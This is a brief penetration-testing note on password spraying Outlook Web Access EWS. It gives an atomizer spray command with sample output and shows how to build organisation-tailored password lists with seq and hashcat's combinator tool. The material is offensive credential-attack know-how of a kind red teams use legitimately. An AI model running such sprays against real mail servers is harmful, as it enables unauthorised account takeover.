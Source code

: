 ```yaml
---
date: 2019-08-02
title: Initial Foothold Through Outlook Password Bruteforcing
description: Notes for password bruteforcing
categories: InitialCompromise
---
```


## Password Attacks Against OWA EWS
Password Bruteforce attacks against OWA EWS:

./atomizer owa https://ip/ews passwordlist.txt userslist.txt --interval 0:00:00
```
[*] Starting spray at 2019-08-02 13:24:40 (Invalid Credentials)
[-] Authentication failed: user1:Sumer2019 (Invalid credentials)
```

To generate a wordlist which suits users within an organisation better (default domain password policy and common organisation passwords), hashcat-utils combinator tool can be used to combine two wordlists together, for instance one wordlist which contains common words such as seasons and months and the other wordlist can contain numbers ranging from two to four for instance 2019. To acheive this the seq tool can be used:

```
seq 00 99 > twonumbers.txt
seq 0000 9999 > fournumbers.txt
```

Then the combinator tool can be used to combine these together:

```
./combinator words.txt fournumbers.txt > passlist.txt
```


